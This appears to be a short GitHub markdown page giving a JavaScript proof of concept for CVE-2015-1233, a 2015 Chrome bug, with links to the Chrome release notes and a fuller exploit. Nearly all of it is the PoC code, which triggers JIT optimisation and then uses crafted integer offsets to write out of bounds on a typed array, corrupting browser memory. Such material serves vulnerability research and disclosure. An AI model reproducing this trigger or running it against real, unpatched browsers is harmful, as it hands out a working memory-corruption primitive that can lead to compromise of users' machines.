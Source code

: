 # CVE-2015-1233

- Date: April 2015
- Credit: ??

## PoC

```javascript
function corrupt(array, offset, oob_byte) {
    var base = -0x7FFFFFC1 + offset;
    array[base - (-0x80000000)] = 0x4B;
    array[base + 0x7FFFFFE1]    = 0x4B;
    array[base + 0x7FFFFFC1]    = oob_byte;
}

function trigger_optimize () {
    var array = new Uint8Array(0x40);
    for (var i = 0; i < 1000000; i++) corrupt(array, 0, 0x00);
}

trigger_optimize();

var exploit_array = new Uint8Array(0x40);
corrupt(exploit_array, -2, 0x80);
```


## Reference

- [Chrome Release](https://chromereleases.googleblog.com/2015/04/stable-channel-update.html)
- [Exploit by 4B5F5F4B](https://github.com/4B5F5F4B/Exploits/blob/master/Chrome/CVE-2015-1233/exploit.html)
